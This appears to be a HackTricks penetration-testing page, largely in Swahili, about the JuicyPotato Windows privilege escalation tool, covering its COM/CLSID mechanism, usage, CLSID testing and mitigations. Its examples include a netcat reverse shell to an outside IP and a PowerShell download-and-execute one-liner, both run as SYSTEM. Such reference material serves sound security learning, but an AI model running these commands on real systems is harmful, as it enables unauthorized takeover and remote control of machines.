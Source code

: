 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato haitumiki** kwenye Windows Server 2019 na Windows 10 build 1809 kuendelea. Hata hivyo, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) zinaweza kutumika **kuchukua faida ya ruhusa sawa na kupata `NT AUTHORITY\SYSTEM`** kiwango cha ufikiaji. _**Angalia:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (kuabudu ruhusa za dhahabu) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_**Toleo lililo na sukari la**_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, likiwa na juisi kidogo, yaani **chombo kingine cha Kuinua Ruhusa za Mitaa, kutoka Akaunti za Huduma za Windows hadi NT AUTHORITY\SYSTEM**_

#### Unaweza kupakua juicypotato kutoka [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Muhtasari <a href="#summary" id="summary"></a>

[**Kutoka kwa juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) na [toleo lake](https://github.com/decoder-it/lonelypotato) linachukua faida ya mnyororo wa kuinua ruhusa kulingana na [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [huduma](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) ikiwa na msikilizaji wa MiTM kwenye `127.0.0.1:6666` na unapokuwa na ruhusa za `SeImpersonate` au `SeAssignPrimaryToken`. Wakati wa ukaguzi wa toleo la Windows tuligundua usanidi ambapo `BITS` ulikuwa umezimwa kwa makusudi na bandari `6666` ilikuwa imechukuliwa.

Tuliamua kuunda silaha [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Sema habari kwa Juicy Potato**.

> Kwa nadharia, angalia [Rotten Potato - Kuinua Ruhusa kutoka Akaunti za Huduma hadi SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) na fuata mnyororo wa viungo na marejeleo.

Tuligundua kwamba, mbali na `BITS` kuna seva kadhaa za COM tunaweza kuabudu. Zinahitaji tu:

1. kuwa na uwezo wa kuanzishwa na mtumiaji wa sasa, kawaida "mtumiaji wa huduma" ambaye ana ruhusa za kujiwakilisha
2. kutekeleza interface ya `IMarshal`
3. kukimbia kama mtumiaji aliyeinuliwa (SYSTEM, Administrator, …)

Baada ya majaribio kadhaa tulipata na kujaribu orodha kubwa ya [CLSID za kuvutia](http://ohpe.it/juicy-potato/CLSID/) kwenye matoleo kadhaa ya Windows.

### Maelezo ya Juicy <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato inakuwezesha:

* **CLSID ya Lengo** _chagua CLSID yoyote unayotaka._ [_Hapa_](http://ohpe.it/juicy-potato/CLSID/) _unaweza kupata orodha iliyopangwa kwa OS._
* **Bandari ya Kusikiliza ya COM** _mwelekeo wa bandari ya kusikiliza ya COM unayopendelea (badala ya 6666 iliyowekwa kwenye msimbo)_
* **Anwani ya IP ya Kusikiliza ya COM** _fungua seva kwenye IP yoyote_
* **Njia ya uundaji wa mchakato** _kulingana na ruhusa za mtumiaji aliyejiwakilisha unaweza kuchagua kutoka:_
* `CreateProcessWithToken` (inahitaji `SeImpersonate`)
* `CreateProcessAsUser` (inahitaji `SeAssignPrimaryToken`)
* `zote`
* **Mchakato wa kuzindua** _zindua executable au script ikiwa unyakuzi unafanikiwa_
* **Argumenti za Mchakato** _binafsisha hoja za mchakato uliozinduliwa_
* **Anwani ya Seva ya RPC** _kwa njia ya siri unaweza kujiandikisha kwa seva ya RPC ya nje_
* **Bandari ya Seva ya RPC** _inafaa ikiwa unataka kujiandikisha kwa seva ya nje na firewall inazuia bandari `135`…_
* **MTIHANI wa hali** _hasa kwa madhumuni ya majaribio, yaani, kujaribu CLSIDs. Inaunda DCOM na kuchapisha mtumiaji wa token. Angalia_ [_hapa kwa majaribio_](http://ohpe.it/juicy-potato/Test/)

### Matumizi <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Mawazo ya Mwisho <a href="#final-thoughts" id="final-thoughts"></a>

[**Kutoka kwa juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Ikiwa mtumiaji ana `SeImpersonate` au `SeAssignPrimaryToken` ruhusa basi wewe ni **SYSTEM**.

Ni karibu haiwezekani kuzuia matumizi mabaya ya COM Servers hizi zote. Unaweza kufikiria kubadilisha ruhusa za vitu hivi kupitia `DCOMCNFG` lakini bahati njema, hii itakuwa changamoto.

Suluhisho halisi ni kulinda akaunti na programu nyeti ambazo zinaendesha chini ya akaunti za `* SERVICE`. Kuzuia `DCOM` hakika kutazuia exploit hii lakini kunaweza kuwa na athari kubwa kwenye OS inayotegemea.

Kutoka: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Mifano

Kumbuka: Tembelea [ukurasa huu](https://ohpe.it/juicy-potato/CLSID/) kwa orodha ya CLSIDs za kujaribu.

### Pata nc.exe reverse shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Launch a new CMD (if you have RDP access)

![](<../../.gitbook/assets/image (300).png>)

## CLSID Problems

Mara nyingi, CLSID ya default ambayo JuicyPotato inatumia **haifanyi kazi** na exploit inashindwa. Kawaida, inachukua majaribio kadhaa kupata **CLSID inayofanya kazi**. Ili kupata orodha ya CLSIDs za kujaribu kwa mfumo maalum wa uendeshaji, unapaswa kutembelea ukurasa huu:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Checking CLSIDs**

Kwanza, utahitaji baadhi ya executable mbali na juicypotato.exe.

Pakua [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) na upakue kwenye kikao chako cha PS, na pakua na tekeleza [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Skripti hiyo itaunda orodha ya CLSIDs zinazowezekana za kujaribu.

Kisha pakua [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)(badilisha njia ya orodha ya CLSID na kwa executable ya juicypotato) na uitekeleze. Itaanza kujaribu kila CLSID, na **wakati nambari ya bandari inabadilika, itamaanisha kwamba CLSID ilifanya kazi**.

**Angalia** CLSIDs zinazofanya kazi **ukitumia parameter -c**

## References

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
